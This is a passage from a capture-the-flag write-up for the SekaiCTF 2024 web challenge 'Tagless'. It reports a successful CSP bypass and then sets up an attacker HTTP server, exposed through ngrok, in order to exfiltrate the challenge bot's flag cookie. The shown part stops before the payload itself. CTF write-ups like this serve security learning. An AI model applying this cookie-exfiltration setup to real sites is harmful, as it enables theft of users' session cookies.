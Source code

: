 ![](https://github.com/siunam321/CTF-Writeups/blob/main/SekaiCTF-2024/images/Pasted%20image%2020240826152745.png)

Nice! It worked! We successfully bypassed the CSP!

## Exploitation

Armed with the above information, we can exfiltrate the bot's `flag` cookie to our attacker server.

To do so, we can:

- Set up a simple HTTP server via Python's `http.server` module

```shell
┌[siunam♥Mercury]-(~/ctf/SekaiCTF-2024/Web/Tagless)-[2024.08.26|15:30:05(HKT)]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

- Set up port forwarding via Ngrok to serve our internal HTTP server to external network

```shell
┌[siunam♥Mercury]-(~/ctf/SekaiCTF-2024/Web/Tagless)-[2024.08.26|15:30:04(HKT)]
└> ngrok http 80
[...]
Forwarding                    https://50e6-{Redacted}.ngrok-free.app -> http://localhost:80            
[...]
```
